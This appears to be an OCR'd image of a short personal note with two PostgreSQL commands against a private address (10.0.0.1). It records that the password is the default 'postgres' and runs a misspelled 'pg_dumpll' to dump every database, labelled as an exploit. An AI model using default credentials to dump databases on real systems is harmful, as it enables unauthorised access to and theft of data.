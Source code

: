 
psql -h 10.0.0.1 -U postgres   => pw ka lal postgres bal

PGPASSWORD="postgres" pg_dumpll -U postgres -h 10.0.0.1 -p 5432   => exploit loke dar